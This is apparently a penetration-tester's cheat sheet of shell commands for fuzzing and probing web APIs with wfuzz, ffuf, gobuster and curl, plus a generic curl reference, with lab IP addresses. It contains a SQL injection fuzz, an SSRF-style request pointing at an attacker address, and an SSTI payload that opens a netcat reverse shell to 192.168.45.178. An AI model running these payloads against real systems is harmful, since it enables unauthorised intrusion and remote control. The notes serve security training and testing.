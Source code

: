 #### Fuzzing APIs

You can use the same commands for testing url parameters.

```bash
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/api/objects.txt --hc 404 $url/FUZZ
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/api/api-endpoints-res.txt --hc 404 $url/FUZZ
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/api/api-seen-in-wild.txt --hc 404 $url/FUZZ
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/combined_words.txt --hc 404 $url/FUZZ
ffuf -k -u $url/api/FUZZ -w /home/kali/repos/offsec/lists/lil-fuzz.txt
ffuf -k -u $url/api/FUZZ -w /home/kali/repos/offsec/lists/sqli.txt
fuff -u $url/weather/forecast?city=\'FUZZ-- -w /opt/SecLists/Fuzzing/special-characters.txt -mc 200,500 -fw 9
curl -X POST -H 'Content-Type: application/json' --data '{"user": "admin", "url", "http://192.168.45.178/update"}' http://192.168.193.134:13337/update
curl -si --data '{"user": "admin", "url", "http://192.168.45.178/update"}'$url:13337/update
cp /opt/SecLists/Discovery/Web-Content/api/objects.txt apis
sed -i 's/^/{GOBUSTER}\//' apis
gobuster dir -u $url:5002 -w /opt/SecLists/Discovery/Web-Content/megadir.txt -p apis
# Start testing with curl for ssti.
curl -si --data "code=1+1" # {7*7}...
curl http://192.168.195.117:50000/verify -si --data "code=os.system('nc -c bash 192.168.45.178 50000')"
```

#### Interacting with APIs

```bash
curl $url/api.php/city/london 	# Read entry
curl -s $url/api.php/city/ \| jq #	Read all entries
curl -X POST $url/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json' #	Create (add) entry
curl -X PUT $url/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json' #	Update (modify) entry
curl -X DELETE $url/api.php/city/New_HTB_City #	Delete entry
```

#### Curl

```bash
curl -s -O inlanefreight.com/index.html #	Download file
curl -k https://inlanefreight.com #	Skip HTTPS (SSL) certificate validation
curl -i https://www.inlanefreight.com #	Print response headers and response body
curl -u admin:admin $url/ #	Set HTTP basic authorization credentials
curl http://admin:admin@$ip:$port/ #	Pass HTTP basic authorization credentials in the URL
curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' $url/ # Set request header
curl -X POST -d 'username=admin&password=admin' $url/ #	Send POST request with POST data
curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' $url/ #	Set request cookies
curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' $url/search.php #	Send POST request with JSON data
```

#### Ffuf
